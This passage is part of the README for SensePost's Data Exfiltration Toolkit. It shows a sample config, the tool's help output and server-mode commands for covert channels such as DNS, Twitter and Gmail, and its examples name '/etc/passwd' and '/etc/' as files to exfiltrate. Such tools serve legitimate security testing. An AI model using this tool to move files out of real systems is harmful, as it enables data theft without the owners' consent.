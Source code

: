 ```json
    },
    "AES_KEY": "THISISACRAZYKEY",
    "max_time_sleep": 10,
    "min_time_sleep": 1,
    "max_bytes_read": 400,
    "min_bytes_read": 300,
    "compression": 1
}
```

# Usage

## Help usage

```bash
python det.py -h
usage: det.py [-h] [-c CONFIG] [-f FILE] [-d FOLDER] [-p PLUGIN] [-e EXCLUDE]
              [-L | -Z]

Data Exfiltration Toolkit (SensePost)

optional arguments:
  -h, --help  show this help message and exit
  -c CONFIG   Configuration file (eg. '-c ./config-sample.json')
  -f FILE     File to exfiltrate (eg. '-f /etc/passwd')
  -d FOLDER   Folder to exfiltrate (eg. '-d /etc/')
  -p PLUGIN   Plugins to use (eg. '-p dns,twitter')
  -e EXCLUDE  Plugins to exclude (eg. '-e gmail,icmp')
  -L          Server mode
  -Z          Proxy mode
```

## Server-side: 

To load every plugin:

```bash
python det.py -L -c ./config.json
```

To load *only* twitter and gmail modules: 

```bash
python det.py -L -c ./config.json -p twitter,gmail
```

To load every plugin and exclude DNS: 

```bash
python det.py -L -c ./config.json -e dns
```

## Client-side:
